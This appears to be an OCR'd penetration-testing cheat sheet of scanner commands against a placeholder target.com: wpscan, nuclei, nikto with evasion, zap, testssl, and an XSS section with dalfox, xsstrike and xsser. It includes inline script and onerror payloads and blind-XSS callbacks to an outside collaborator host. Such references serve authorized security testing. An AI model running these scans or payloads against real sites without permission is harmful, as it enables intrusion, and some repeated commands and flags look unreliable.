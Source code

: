     testssl.sh --vulnerabilities target.com
    wpscan --url https://target.com --enumerate p,u,t,m,c --api-token $WP_SCAN_TOKEN -o wpscan_full.txt
    wpscan --url https://target.com/blog --plugins-version --themes-version
    ------
    nuclei -u https://target.com -t nuclei-templates/http/,custom-templates/ -severity critical,high,medium,low -o nuclei_all.txt -rate-limit 150 -bulk-size 75 -retries 5
    nuclei -l subfinder.txt -t nuclei-templates/dns/,third-party-templates/ -o nuclei_all_dns.txt -exclude-severity info -concurrency 100
    nikto -h https://target.com -output nikto_very_full.xml -Format xml -C all -Tuning x,c,i,a,s,b,e,1,2,3,4,5,6,7 -evasion 1,2,3,4 -useragent "Custom-Scanner/1.0"
    nikto -h https://target.com -output nikto_ssl_extended.txt -Format txt -ssl -port 443 -mutate 1,2,3
    zap -cmd -quickurl https://target.com -quickout report_zap_full.html -config zap_advanced_config.ini -ajaxspider
    zap -cmd -quickurl https://target.com -quickprogress -apikey $ZAP_API_KEY -recursive -maxchildren 10
    testssl.sh -e -E -f -U -S -P -Q --ip $(dig +short target.com | head -n 1) target.com --file vulns.txt --openssl /usr/bin/openssl1.1
    testssl.sh --all target.com
    wpscan --url https://target.com --enumerate p,u,t,m,c,dbe,ap --api-token $WP_SCAN_TOKEN -o wpscan_very_full.txt --plugins-detection aggressive --themes-detection aggressive
    wpscan --url https://target.com/blog --plugins-version --themes-version --verbose

## 3.2 XSS Testing
    dalfox url 'https://target.com/search?q=test'
    dalfox url 'https://target.com/search?q=test' -b https://xss.burpcollab.net
    xsstrike -u "https://target.com/search?q=1"
    xsstrike -u "https://target.com/search?q=1" --crawl -t 10
    xsser -u "https://target.com" -g "/search.php?q=XSS" -c 3
    kxsstester -u https://target.com/search?q=1
    kxsstester -u https://target.com/search?q=1 --dom --post-data 'param=val'
    brutexss -u https://target.com -p "param1 param2" -w xss_payloads.txt
    ------
    dalfox url 'https://target.com/search?q=test' -b https://xss.burpcollab.net -w /usr/share/seclists/Fuzzing/XSS/XSS-Payloads-L5.txt -p 10
    dalfox url 'https://target.com/submit' -p 'param1=value1&param2=<script>alert(1)</script>' -X POST -b https://xss.burpcollab.net
    xsstrike -u "https://target.com/search?q=1" --crawl -t 20 --fuzzer all --level 3 -o xsstrike_crawl.txt
    xsstrike -u "https://target.com/profile?id=1" --params "id" -p /usr/share/seclists/Fuzzing/XSS/XSS-Payloads.txt
    xsser -u "https://target.com" -g "/search.php?q=XSS" -c 5 --payloads /usr/share/seclists/Fuzzing/XSS/XSS-Payloads.txt
    xsser -u "https://target.com/form.html" --post="name=test&email=<script>alert(1)</script>"
    kxsstester -u https://target.com/search?q=1 --dom --post-data 'param=val' --payloads /usr/share/seclists/Fuzzing/XSS/DOMXSS.txt
    kxsstester -u https://target.com/vuln#test=<script>alert(1)</script> --hash
    brutexss -u https://target.com -p "name query search" -w /usr/share/seclists/Fuzzing/XSS/XSS-Payloads.txt -t 30
    brutexss -u https://target.com -data "param1=value1&param2=FUZZ" -w /usr/share/seclists/Fuzzing/XSS/XSS-Payloads.txt -m POST
    ------
    dalfox url 'https://target.com/search?q=test' -b https://xss.burpcollab.net -w /usr/share/seclists/Fuzzing/XSS/XSS-Payloads-Full.txt -p 15 -smart
    dalfox url 'https://target.com/submit' -p 'param1=value1&param2=<img src=x onerror=alert(1)>' -X POST -b https://xss.burpcollab.net -blind-timeout 30
    xsstrike -u "https://target.com/search?q=1" --crawl -t 25 --fuzzer all --level 5 -o xsstrike_crawl_full.txt --vectors all
    xsstrike -u "https://target.com/profile?id=1" --params "id" -p /usr/share/seclists/Fuzzing/XSS/XSS-Polyglots.txt --encode
    xsser -u "https://target.com" -g "/search.php?q=XSS" -c 7 --payloads /usr/share/seclists/Fuzzing/XSS/XSS-Payloads-Advanced.txt --delay 2
    xsser -u "https://target.com/form.html" --post="name=test&email=<svg><script>alert(1)</script></svg>" --headers "Content-Type: application/xml"